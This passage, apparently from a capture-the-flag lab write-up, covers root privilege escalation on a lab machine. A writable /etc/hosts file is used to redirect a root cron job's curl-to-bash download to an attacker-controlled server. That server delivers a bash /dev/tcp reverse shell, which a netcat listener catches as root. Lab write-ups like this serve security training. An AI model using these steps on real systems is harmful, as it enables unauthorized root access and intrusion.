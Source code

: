 ```
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
# Update builds from latest code
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
james@overpass-prod:~$ 
```

The script is using curl to get the buildscript.sh from the local web server (overpass.thm --> 127.0.0.1 in /etc/hosts). Luckily, the /etc/hosts file is writable:

```
james@overpass-prod:~$ ls -l /etc/hosts
-rw-rw-rw- 1 root root 250 Jun 27 02:39 /etc/hosts
```

Let’s change the IP address from 127.0.0.1 to 10.4.22.30 (your IP) for the overpass.thm entry:

```
james@overpass-prod:~$ cat /etc/hosts
127.0.0.1 localhost
127.0.1.1 overpass-prod
10.4.22.30 overpass.thm
# The following lines are desirable for IPv6 capable hosts
::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

Now, let’s create a local reverse shell that we will save in the location requested by the cron job:

1. make the file-path in your current directory  `downloads/src/buildscript.sh` and include the reverse shell 
   
    ```
    /bin/bash -i >& /dev/tcp/10.4.22.30/4444 0>&1
    ```

2. Start your local web server and wait for the cron job to get the content of the file (current directory):

    ```
    ☺ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.34.125 - - [19/Aug/2020 17:06:01] "GET /downloads/src/buildscript.sh HTTP/1.1" 200 -
    ```

3. In another window, we have a netcat listener running, after a while the cronjob gets executed and a reverse shell initiated:
   
    ```
    ☺ nc -nlvp 4444
    listening on [any] 4444 ...
    connect to [10.4.22.30] from (UNKNOWN) [10.10.34.125] 57212
    /bin/sh: 0: can't access tty; job control turned off
    # cd /root
    # ls
    buildStatus
    builds
    go
    root.txt
